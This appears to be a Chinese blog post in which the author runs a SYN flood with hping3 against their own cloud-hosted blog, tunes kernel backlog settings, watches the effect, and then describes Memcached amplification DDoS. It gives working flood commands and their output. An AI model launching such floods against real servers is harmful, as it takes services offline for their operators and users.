 ```yaml
---
title: SYN Flood Attack
author: 小黄鸭
type: post
date: 2019-12-26T14:03:53+00:00
excerpt: SYN Flood攻击本博客实践
featured_image: /wp-content/uploads/2019/12/Screenshot-from-2019-12-26-22-02-50.png
rank_math_primary_category:
  - 29
rank_math_seo_score:
  - 18
rank_math_internal_links_processed:
  - 1
categories:
  - 最佳实践
archieved: true

---
```

## 什么是SYN Flood

SYN Flood，又称TCP Flood，是利用TCP协议三次握手消耗目标服务器资源的DDoS攻击。客户端通过伪造SYN包，使用伪造的源IP地址，因为服务端收到请求后会对SYN进行响应——发送SYN和ACK包，但是对方的地址是伪造的因此不会响应，服务端会重试几次后丢弃这个连接。这样会导致服务端对多个伪造的SYN包在重试响应，无暇理睬正常的连接请求。

## 实践

### 初步尝试

根据定义，需要向特定服务发送大量的TCP SYN包，因此需要利用一些发包工具。通过搜索找到[hping工具][1]，作者是antirez（Redis作者）。以下是安装及文档中部分实践使用到的参数：

```
uck@duck-MS-7A34:~$ sudo apt install hping3
duck@duck-MS-7A34:~$ sudo hping --help
usage: hping3 host [options]
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
      --fast      alias for -i u10000 (10 packets for second)
      --faster    alias for -i u1000 (100 packets for second)
      --flood      sent packets as fast as possible. Don't show replies.
IP
  -a  --spoof      spoof source address
  --rand-dest      random destionation address mode. see the man.
  --rand-source    random source address mode. see the man.
UDP/TCP
  -s  --baseport   base source port             (default random)
  -p  --destport   [+][+]&lt;port> destination port(default 0) ctrl+z inc/dec
  -S  --syn        set SYN flag

```
尝试攻击部署在阿里云的个人博客：

```
uck@duck-MS-7A34:~$ sudo hping3 -i u1000 -S -p 443 120.25.247.125
HPING 120.25.247.125 (enp33s0 120.25.247.125): S set, 40 headers + 0 data bytes
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=0 win=29200 rtt=15.8 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=1 win=29200 rtt=14.7 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=2 win=29200 rtt=13.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=3 win=29200 rtt=12.6 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=4 win=29200 rtt=11.5 ms
len=46 ip=120.25.247.125 ttl=49 DF id=0 sport=443 flags=SA seq=5 win=29200 rtt=10.5 ms
...

```
此时可以在ECS上看到网络情况，通过netstat命令查看到处于SYN_RECV的大量TCP连接，如图所示：

![](../2019/12/001-zhujiekun-SYN_RECV.png)
### 暴力发包

尝试将攻击频率调快：`sudo hping3 -i u1 -S -p 443 120.25.247.125`，然后在ECS上查看当前的SYN包个数：

```
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ netstat -n | grep SYN | wc -l
128

```
只有128个TCP半连接，与发包数量相差很大。猜测是系统配置限制了总TCP连接数上限或者半连接状态连接数上限。

通过查询相关文档，找到系统配置：

```
uck@iZwz92ujq5zpxvm1vtq0gtZ:~$ vim /etc/sysctl.conf
vm.swappiness = 0
net.ipv4.neigh.default.gc_stale_time = 120

# see details in https://help.aliyun.com/knowledge_detail/39428.html
net.ipv4.conf.all.rp_filter = 0
net.ipv4.conf.default.rp_filter = 0
net.ipv4.conf.default.arp_announce = 2
net.ipv4.conf.lo.arp_announce = 2
net.ipv4.conf.all.arp_announce = 2

# see details in https://help.aliyun.com/knowledge_detail/41334.html
net.ipv4.tcp_max_tw_buckets = 5000
net.ipv4.tcp_syncookies = 1
net.ipv4.tcp_max_syn_backlog = 128
net.ipv4.tcp_synack_retries = 2

net.ipv6.conf.all.disable_ipv6 = 1
net.ipv6.conf.default.disable_ipv6 = 1
net.ipv6.conf.lo.disable_ipv6 = 1
net.ipv6.conf.eth0.disable_ipv6 =1

kernel.sysrq = 1

```
其中一项`net.ipv4.tcp_max_syn_backlog = 128`可能是有关项，并且通过查阅文件中提供的阿里云文档，得到参数和它相关参数的具体描述：

  * `net.ipv4.tcp_max_syn_backlog`：该参数决定了系统中处于SYN\_RECV状态的TCP连接数量。SYN\_RECV状态指的是当系统收到SYN后，作为SYN+ACK响应后等待对方回复三次握手阶段中的最后一个ACK的阶段。对于还未获得对方确认的连接请求，可保存在队列中的最大数目。如果服务器经常出现过载，可以尝试增加这个数字。默认为1024。
  * `net.core.somaxconn`：该参数定义了系统中每一个端口最大的监听队列的长度，是个全局参数。该参数和net.ipv4.tcp\_max\_syn_backlog有关联，后者指的是还在三次握手的半连接的上限，该参数指的是处于ESTABLISHED的数量上限。当backlog大于net.core.somaxconn时，以net.core.somaxconn参数为准。

那么将他们都改成一个特别大的数值然后保存，再尝试SYN Flood，结果如下：

  * 因为发包占用了很多的流量所以本机无法SSH上ECS查看
  * 通过阿里云的管理面板查看到TCP包一共64000个，其中NON_ESTABLISHED状态的包占了几乎全部数量
* 访问https的博客地址无法响应

![](../2019/12/001-zhujiekun-TCP_connection_count.png)
### 持续监控

在持续发包一段时间后，发现TCP连接数下降至约500个，并且博客站点重新可以访问。因为时间原因没有尝试其他的手段，主要推测可能是现有的系统（也可能是协议层、云服务商等）对暴力SYN Flood攻击有判断和校验，丢弃特定特征的包（相同IP、端口或者其他指纹）。

因为ECS地理位置离测试地点较近，所以通常延迟非常低。在SYN状态TCP连接数量从64k下降到500时，站点可以进行访问但是观察到速度比原来明显缓慢，通过这点猜测DoS攻击有生效但是受限于使用的发起攻击的设备流量条件不足以拖跨服务。

## 延伸思考

因为设备条件问题，虽然可以观察到大量半连接的TCP状态，但是离DoS（Denial of Service）还是有很大的差距，消耗不完目标的网络带宽或系统资源。那是否有方案通过小流量产生大流量（放大）的攻击呢？

### Memcached DDoS

当Memcached服务器接收到GET请求，它从内存获取相关信息组织起一个RESPONSE，然后通过连续的UDP包进行返回。通常来说GET请求的体积和RESPONSE的体积大小可以相差很多倍。

攻击者可以利用这点，先向Memcached服务器插入随机的大体积数据，然后向服务器请求。根据CloudFlare的报告，这样会导致一个巨大的流量放大倍数，例如15 byte的请求可以引起134KB的响应。当Memcached响应的对象指向攻击目标机器的时候，目标机器就会收到海量的UDP包，从而可能导致拒绝服务。

 [1]: https://github.com/antirez/hping